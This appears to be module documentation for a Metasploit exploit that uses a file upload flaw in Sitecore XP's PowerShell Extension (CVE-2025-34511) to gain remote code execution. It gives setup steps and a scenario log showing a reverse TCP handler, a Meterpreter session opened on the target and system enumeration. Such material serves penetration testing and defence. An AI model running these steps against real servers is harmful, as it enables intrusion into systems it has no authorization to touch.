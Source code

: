 ## Vulnerable Application

The Sitecore Experience Platform (XP) is flagship CMS product. Provides comprehensive digital marketing tools, view of customer data and many other features. A user can install multiple extensions to Sitecore XP - among them is Sitecore PowerShell Extension (SPA). It is obligatory requirement for popular SXA add-on. The SPA is vulnerable to unrestricted file upload up to version 7.0. An attacker can upload malicious ASPX file and gain remote code execution.


### Installation

The Sitecore XP can be downloaded from [here](https://developers.sitecore.com/downloads/Sitecore_Experience_Platform). Please note that a license is required for successful installation.


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/windows/http/sitecore_xp_cve_2025_34511`
1. Do: `set RHOSTS [Sitecore XP IP address]`
1. Do: `set VHOST [Sitecore XP hostname]`
1. Do: `set IDENTITY_VHOST [hostname of Sitecore XP identity server]`
1. Do: `set LHOST [attacker IP]`
1. Do: `run`

## Options


### VHOST

The hostname of Sitecore XP - when installed, Sitecore XP deploys multiple vhosts, among them is the Sitecore XP host, where a user can access majority of functions. 


### IDENTITY_VHOST

The Sitecore XP uses separate vhost for "identity host", which is used when user is authenticating and asking for session data.


## Scenarios


```
msf exploit(windows/http/sitecore_xp_cve_2025_34511) > set RHOSTS 10.5.132.138
RHOSTS => 10.5.132.138
msf exploit(windows/http/sitecore_xp_cve_2025_34511) > set VHOST sitecorepocsc.dev.local
VHOST => sitecorepocsc.dev.local
msf exploit(windows/http/sitecore_xp_cve_2025_34511) > set IDENTITY_VHOST sitecorepocidentityserver.dev.local
IDENTITY_VHOST => sitecorepocidentityserver.dev.local
msf exploit(windows/http/sitecore_xp_cve_2025_34511) > run verbose=true 
[*] Started reverse TCP handler on 192.168.3.7:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Sitecore version detected 10.3.0, which is vulnerable
[*] Sending stage (203846 bytes) to 10.5.132.138
[*] Meterpreter session 1 opened (192.168.3.7:4444 -> 10.5.132.138:50194) at 2025-08-26 12:58:22 +0200

meterpreter > sysinfo
Computer        : WIN11_22H2_0800
OS              : Windows 11 22H2 (10.0 Build 22621).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: IIS APPPOOL\sitecorepocsc.dev.local
```
